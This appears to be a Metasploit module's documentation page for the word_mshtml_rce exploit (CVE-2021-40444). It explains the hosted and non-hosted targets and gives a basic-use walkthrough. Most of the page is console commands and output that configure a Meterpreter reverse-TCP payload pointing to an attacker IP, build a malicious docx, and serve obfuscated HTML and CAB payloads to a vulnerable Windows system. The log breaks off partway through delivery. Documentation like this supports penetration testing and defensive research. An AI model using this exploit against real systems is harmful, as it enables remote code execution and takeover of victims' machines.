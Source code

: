 ## Targets
* `Hosted`: Prepares the docx file and CAB file, then launches an http server to
  serve the CAB file and deliver the payload.
* `Not_Hosted`: Prepares *only* the docx file.  This option does not create the
  CAB file, nor does it start an HTTP server.  Users will need to create and
  serve the CAB file separately.

## Scenarios

### Basic use

1. Generate the exploit as following.

    ```
    msf6 exploit(windows/fileformat/word_mshtml_rce) > use exploit/windows/fileformat/word_mshtml_rce
    [*] Using configured payload windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set SRVHOST 172.20.7.36
    SRVHOST => 172.20.7.36
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set LHOST 172.20.7.36
    LHOST => 172.20.7.36
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set VERBOSE true
    VERBOSE => true
    msf6 exploit(windows/fileformat/word_mshtml_rce) > run
    [*] Using URL: http://172.20.7.36:8080/x58G8ZxLbZ
    [*] Server started.
    [*] CVE-2021-40444: Generate a malicious docx file
    [*] Using template '/opt/metasploit/data/exploits/cve-2021-40444.docx'
    [*] Parsing item from template: [Content_Types].xml
    [*] Parsing item from template: _rels/
    [*] Parsing item from template: _rels/.rels
    [*] Parsing item from template: docProps/
    [*] Parsing item from template: docProps/core.xml
    [*] Parsing item from template: docProps/app.xml
    [*] Parsing item from template: word/
    [*] Parsing item from template: word/theme/
    [*] Parsing item from template: word/theme/theme1.xml
    [*] Parsing item from template: word/styles.xml
    [*] Parsing item from template: word/settings.xml
    [*] Parsing item from template: word/document.xml
    [*] Parsing item from template: word/_rels/
    [*] Parsing item from template: word/_rels/document.xml.rels
    [*] Parsing item from template: word/fontTable.xml
    [*] Parsing item from template: word/webSettings.xml
    [*] Injecting payload in docx document
    [*] Finalizing docx 'msf.docx'
    [+] msf.docx stored at /home/mekhalleh/.msf4/local/msf.docx
    ```

2. Execute the DOCX document on a remote vulnerable system.

    ```
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: cc1d5e18
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 620a35dd
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805